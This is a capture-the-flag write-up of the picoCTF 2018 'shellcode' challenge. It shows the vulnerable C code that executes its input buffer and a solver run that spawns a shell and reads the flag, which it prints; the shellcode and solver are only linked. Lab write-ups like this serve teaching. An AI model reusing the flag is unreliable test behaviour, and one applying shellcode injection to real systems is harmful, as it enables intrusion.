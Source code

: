# shellcode

__PROBLEM__

This program executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_3_09e0c5074980877d900d65c545d1e127 on the shell server. Source.

__HINT__

Maybe try writing some shellcode?
You also might be able to find some good shellcode online.

__SOLUTION__

Check the binary:
```
$ luk6xff@pico-2018-shell:/problems/quackme_2_45804bbb593f90c3b4cefabe60c1c4e2$ file main
main: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=b830e63a4a15c7051882bf03e1fa8f6abf3b7950, not stripped
```
Looking at the [source](./vuln.c) we see the part:
```c
  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();
```
It gives us the hint to load the payload which will open `/bin/sh` cli.
I used the following [shellcode](./shellcode.c)

Run the [solver](./solver.py):
```sh
(venv) luk6xff@luk6xff:~/MyStuff/ctf/writeups/picoCTF-2018/Binary-Exploitation/shellcode$ python solver.py
[+] Connecting to 2018shell4.picoctf.com on port 22: Done
[*] luk6xff@2018shell4.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'cd /problems/shellcode_3_09e0c5074980877d900d65c545d1e127 && ./vuln': Done
[*] Switching to interactive mode
Thanks! Executing now...
$
$ cat flag.txt
picoCTF{shellc0de_w00h00_7f5a7309}$
$
```

FLAG - `picoCTF{shellc0de_w00h00_7f5a7309}`
